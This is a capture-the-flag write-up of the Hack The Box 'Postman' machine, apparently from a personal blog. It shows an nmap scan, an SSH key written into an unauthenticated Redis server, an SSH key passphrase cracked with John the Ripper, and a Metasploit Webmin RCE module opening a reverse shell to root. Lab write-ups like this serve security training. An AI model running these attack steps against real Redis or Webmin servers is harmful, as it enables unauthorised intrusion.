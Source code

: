 ```yaml
---
path: "/htb-postman"
title: "Hack The Box - Postman"
date: "03/23/2020"
featuredImage: ../../images/postman.png
tags: ["pentesting","hackthebox","linux"]
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT      STATE SERVICE    VERSION
22/tcp    open  tcpwrapped
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|_  256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis      Redis key-value store 4.0.9
10000/tcp open  http       MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
...
```

With these result the first thing that stands out is the http server at port `80`.
This yielded nothing very useful. We can pay attention to the other http server at port `10000`.
Webmin was also a deadend (..for now)

The next available port is redis. You can use the redis-cli to connect to it. No authentication required.
`redis-cli -h 10.10.10.160`

Poking around the interwebs you can find ways to exploit a redis server.[HackTricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#get-sshcrackit)
The approach we are going with is to put a public key in the redis server and overwrite the `.ssh/authorized_keys`. This will allow us to ssh as the redis user.

(side note - I create a script that generates ssh keypair and then upload the public key to the server [SSH Redis Exploit](https://github.com/bascoe10/RedisExploit))

```
root@kali:~/HTB/Postman/RedisExploit# python ssh_exploit.py 10.10.10.160 /var/lib/redis/.ssh
Namespace(host='10.10.10.160', ssh_dir='/var/lib/redis/.ssh')
Key pairs generated
Redis flushed
public key added to redis
Home directory set
DB filename changed
Setting saved
Done
root@kali:~/HTB/Postman/RedisExploit# ssh redis@10.10.10.160 -i private.pem
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

redis@Postman:~$
```

Once you establish initial foothold. You can start looking for ways to escalate our privileges.
From the `/home` directory you can find that there is a user `Matt` and also in the `/opt` there is `id_rsa.bak`.

There is a passphrase required for the private key. For this, `JohnTheRipper` to the rescue.
In other to use `JohnTheRipper` the key has to be converted to `john` format with `ssh2john`.

The passphrase turns out to be `computer2008`. The ssh gets terminated immediately if you try to use this private key as Matt.
With the passphrase at hand you can to use it directly on the box.
Log in as `redis` user and the `su Matt`, supply the passhphrase and you should be good.

First flag down.

For the root flag you can exploit webmin 1.910 via `metasploit`

```
root@kali:~/HTB/Postman# msfconsole


Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018   es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)


Stack: 90909090990909090990909090
       90909090990909090990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v5.0.76-dev                          ]
+ -- --=[ 1971 exploits - 1088 auxiliary - 339 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => tun0
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.216:4444
[+] Session cookie: d464b6cc2a8b929cda109ff0eaaa4ec9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.216:4444 -> 10.10.10.160:55052) at 2020-03-22 15:52:55 -0400
whoami

root
ls -al /root
...
-rw-r--r--  1 root root    33 Aug 26  2019 root.txt
```

